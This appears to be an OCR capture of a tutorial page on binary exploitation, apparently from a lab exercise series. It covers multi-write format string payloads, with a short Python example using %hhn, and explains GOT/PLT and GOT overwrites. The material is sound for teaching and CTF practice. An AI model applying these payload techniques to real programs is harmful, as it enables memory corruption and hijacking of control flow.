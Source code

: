 📖 Format String Precision

3. Multiple Writes in One Payload
Strategy:
1. Place all addresses first
2. Calculate padding for each write
3. Use %hn for 2-byte writes
4. Reference correct parameter positions
Example:
python# Four addresses (16 bytes)
addrs = "\x10\x98\x04\x08"  # Position 4
addrs += "\x12\x98\x04\x08"  # Position 5
addrs += "\x14\x98\x04\x08"  # Position 6
addrs += "\x16\x98\x04\x08"  # Position 7

# Write different values to each
payload = addrs
payload += "%50x%4$hhn"   # Write 50+16=66 to first
payload += "%100x%5$hhn"  # Write 66+100=166 to second
# etc...
Learn More:

📖 Advanced Format String


Level 5 - GOT Overwrite
🎯 Concepts Covered
1. GOT (Global Offset Table)
What is GOT?
Table that stores addresses of dynamically linked functions.
Why it exists:

Shared libraries (libc) can be loaded at different addresses
GOT provides a level of indirection
Programs look up function addresses in GOT at runtime

Visual:
Program calls printf()
    ↓
Jumps to PLT (Procedure Linkage Table)
    ↓
PLT looks up address in GOT
    ↓
Jumps to actual printf() in libc
Learn More:

📖 PLT and GOT Explained ⭐ EXCELLENT
📖 Understanding GOT/PLT
🎥 YouTube: GOT/PLT Explained

2. Finding GOT Entries
Method 1: objdump
bashobjdump -R ./level5
